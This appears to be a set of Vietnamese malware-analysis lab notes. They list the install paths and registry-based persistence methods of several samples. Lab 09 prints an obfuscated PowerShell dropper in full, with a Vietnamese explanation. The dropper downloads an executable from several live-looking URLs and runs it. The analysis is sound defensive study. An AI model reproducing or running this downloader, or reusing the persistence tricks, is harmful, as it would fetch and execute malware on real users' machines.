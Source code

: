 # Lab 06

- Đường dẫn: C:\Windows\SysWOW64\trnsrun.exe

- Cách thức persistent: mã độc dùng key HKLM\System\CurrentControlSet\Service

# Lab 07

- Đường dẫn: C:\Users\Gee\AppData\Roaming\Microsoft\Windows\OUTLLIB.DLL

- Cách thức persistent: mã độc dùng key HKEY_LOCAL_MACHINE\SOFTWARE\WOW6432Node\Microsoft\Windows NT\CurrentVersion\Windows\AppInit_DLLs

# Lab 08

- Đường dẫn: C:\ProgramData\McAfee\McUtil.dll

- Cách thức persistent: mã độc dùng key HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\McAfee cho file thực thi và kỹ thuật dll Hijack để thêm dll độc hại vào cùng file thực thi

# Lab 09

- Mã độc thực thi lệnh: powershell.exe -ExecutionPolicy Bypass -file C:\ProgramData\Microsoft\install.ps1 -WindowStyle Hidden

- File C:\ProgramData\Microsoft\install.ps1 là một lệnh powershell có chức năng:

  ```
  $Eaqekqdr='Rdihyhokr';
  $Qlidsvmgx='697';
  $Zekpiwafigy='Bznpimsdzhz';
  $Dvbarexgme=$env:userprofile+'\'+$Qlidsvmgx+'.exe';
  $Nyvgeunamuv='Qwlelligoxb';
  $Mgufpvaskhlz=..('n'+'ew-ob'+'ject') net.webclient;
  $Snotuzji='https://www.arfajbd.com/wp-admin/kx432434/*https://hefo.com/wp-content/5zuz9ir00606/*http://icloudgraphics.com/wp-content/o1cu7628/*https://bucketlistadventures.com/m5_edit_item/06605ld03197/*http://naavikschool.com/naavikschool.com/ooqvi7a0682/';.``'SPL`I`t'(''*)$Zwecplcmhnzc='Ofrhbvbgo';
  foreach($Sixenfhuvxlow in $Snotuzji)
  {
    try
      {
        $Mgufpvaskhlz."d`Ow`LOad`FilE"($Sixenfhuvxlow, $Dvbarexgme);
        $Hjyeuxoehr='Fejljctrajft';
        If((..('G'+'e'+'t-Item') $Dvbarexgme)."L`E`N`GTH" -ge 26474)
        {
          [Diagnostics.Process]::"St`AR`t"($Dvbarexgme);
          $Pqabbqfxpvzeu='Nlkwrrxcr';
          break;
          $Spaskmwq='Evozmuqleiihk'
        }
      }
      catch{}
  }
  $Imjfroitwtypw='Mhweqwhphs'
  ```

  - Tạo và đặt các biến: Các biến $Eaqekqdr, $Qlidsvmgx, $Zekpiwafigy, $Dvbarexgme, $Nyvgeunamuv, $Mgufpvaskhlz, $Snotuzji, $Zwecplcmhnzc, $Hjyeuxoehr, $Pqabbqfxpvzeu, $Spaskmwq, và $Imjfroitwtypw được tạo và gán giá trị.
 
  - Tải về một tệp: Sử dụng đối tượng Net.WebClient, mã PowerShell này cố gắng tải về một tệp từ các URL đã liệt kê trong biến $Snotuzji và lưu tệp này vào vị trí được xác định bởi biến $Dvbarexgme.

  - Kiểm tra độ dài tệp và thực thi: Nếu tệp được tải về có độ dài (kích thước) lớn hơn hoặc bằng 26474 byte, nó sẽ được thực thi bằng cách sử dụng Diagnostics.Process.

# Lab 10
